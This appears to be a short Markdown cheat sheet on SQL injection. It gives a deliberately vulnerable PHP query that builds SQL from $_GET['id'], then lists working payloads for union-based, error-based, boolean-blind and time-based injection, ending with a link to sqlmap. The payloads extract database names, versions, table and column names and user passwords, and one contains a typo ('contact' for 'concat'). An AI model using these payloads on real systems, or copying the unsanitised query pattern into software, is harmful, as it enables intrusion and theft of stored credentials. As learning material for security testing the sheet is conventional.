 # Example

```
$id = $_GET["id"];
$db_query = "SELECT * FROM table WHERE ID='$id' LIMIT 0,1;";
```

* Union Based Injection
* Error Based Injection
* Boolean Based blind Injection
* Time Base Injection

Note: There are many comment out statement in different type and version of SQL.

for example:

* --
* #
* /*
* --+

## Check Vulnerability
```
input: 1' or '1'='1
input: 1"
input: 1'
```

# Union Based Injection
"-- -" comment out the statement after union select
```
input 1' union select 1-- -
input 1' union select 1,2-- -
input 1' union select 1,2,3-- -

# $db_query = "SELECT * FROM table WHERE ID='1' union select 1,2-- -LIMIT 0,1;
```

```
# query database name
input -1' union select 1, database()-- -
# query sql version
input -1' union select 1, version()-- -
# query db user
input -1' union select 1, user()-- -
# query tables list
input -1' union select 1,table_name from information_schema.tables where table_schema=database()--
# query "user" table's columns
input -1' union select 1,column_name from information_schema.columns where table_schema=database() and table_name='user'--+
# query "user" table's rows
input -1' union select 1, contact(ID,",",Name,",",",Pass) from user--+

# $db_query = "SELECT * FROM ID='-1' union select 1,version()-- - LIMIT 0,1;"
```

# Error based Injection

```
# query database name
input -1' and extractvalue(0x0a,concat(0x0a,(select database()))) --+
# query table name
input -1' and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))--+
```

# Boolean base blind Injection
```
# query db version
input 1' and substring(version(),1,1)=4--+
response: no response

# query db version
input 1' and substring(version(),1,1)=5--+
response: yes
then we know the db version is 5

input 1' and ascii(substring((select concat(table_name) from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 64 --+
try >64, >112, >95, >110, =102 (narrow down)
then we know the first character of table name is "f" (ascii=102)

input 1' and ascii(substring((select concat(column_name) from information_schema.columns where table_name="fxxxx" limit 0,1), 1, 1))=73--+
response: yes
then we know the table fxxxx's first column's first character is "I" (ascii=73)
```

# Time based Injection
```
# check which comment statement is target database using 
input 1' and sleep(3)--
input 1' and sleep(3)--+
input 1' and sleep(3)#
```

# Tool

http://sqlmap.org/
